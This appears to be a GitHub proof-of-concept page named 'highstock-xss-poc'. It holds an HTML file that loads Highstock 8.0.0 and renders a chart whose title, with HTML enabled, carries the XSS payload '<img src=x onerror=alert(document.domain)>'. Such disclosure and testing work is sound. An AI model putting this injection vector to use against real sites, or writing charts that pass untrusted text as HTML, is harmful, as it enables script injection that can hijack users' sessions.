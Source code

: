 # highstock-xss-poc
<!DOCTYPE html>
<html>
<head>
  <title>Highstock XSS Test</title>
  <script src="https://www.six-structured-products.com/js/highstock/8.0.0/highstock.js"></script>
</head>
<body>
  <div id="container" style="height: 400px; min-width: 310px"></div>

  <script>
    Highcharts.chart('container', {
      chart: { type: 'bar' },
      title: {
        useHTML: true,
        text: '<img src=x onerror=alert(document.domain)>'
      },
      series: [{
        data: [1, 2, 3]
      }]
    });
  </script>
</body>
</html>
